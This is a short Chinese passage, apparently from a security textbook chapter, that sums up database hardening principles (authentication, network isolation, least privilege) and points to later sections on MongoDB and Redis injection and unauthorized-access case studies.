关键安全加固原则归纳为三点：**认证是底线**（必须启用认证，禁止默认空密码）、**网络隔离是屏障**（不暴露到公网，使用防火墙和VPN）、**最小权限是核心**（应用账户只授予必要的最小权限，禁用危险命令）。

> **延伸阅读**：本章核心技巧部分「5. NoSQL注入」将深入讲解MongoDB和Redis的注入技术与防御方法；实战案例部分「案例七：Redis未授权访问写入WebShell」和「案例六：MongoDB未授权访问导致数据泄露」提供了完整的攻击复现流程。
